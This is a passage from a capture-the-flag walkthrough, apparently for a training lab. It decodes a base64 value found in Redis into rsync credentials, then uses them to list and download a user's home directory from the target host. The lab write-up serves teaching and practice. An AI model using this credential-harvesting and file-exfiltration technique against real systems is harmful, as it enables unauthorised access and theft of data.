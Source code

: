   ```
  2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
  3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
  
  10.10.255.144:6379> LRANGE marketlist 1 16
  1) "Penetration Testing"
  2) "Programming"
  3) "Data Analysis"
  4) "Analytics"
  5) "Marketing"
  6) "Media Streaming"
  ```

- Second flag done and another hint found.

  ```
  echo 'QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==' | base64 -d
  Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
  ```

- Now we have Rsync password so let's enumerate that service on port 873. I told ya, full enumeration training with this one. Also, create a directory where you will download the `sys-internal` directory.

  ```
  mkdir rsync
  rsync -av --list-only rsync://10.10.255.144   
  files           Necessary home interaction

  rsync rsync://rsync-connect@10.10.255.144/files
  Password: 
  drwxr-xr-x          4,096 2021/02/01 12:51:14 .
  drwxr-xr-x          4,096 2021/02/06 12:49:29 sys-internal

  rsync -av rsync://rsync-connect@10.10.255.144/files rsync/

  [SNIP!]
  sys-internal/.thumbnails/normal/2b53c68a980e4c943d2853db2510acf6.png
  sys-internal/.thumbnails/normal/473aeca0657907b953403884c53d865c.png
  sys-internal/.thumbnails/normal/539380d1cb60fcd744fd5094d314fdc1.png
  sys-internal/Desktop/
  sys-internal/Documents/
  sys-internal/Downloads/
  sys-internal/Music/
  sys-internal/Pictures/
  sys-internal/Public/
  sys-internal/Templates/
  sys-internal/Videos/
  
  sent 28,056 bytes  received 41,851,891 bytes  3,641,734.52 bytes/sec
  total size is 41,708,382  speedup is 1.00
  ```
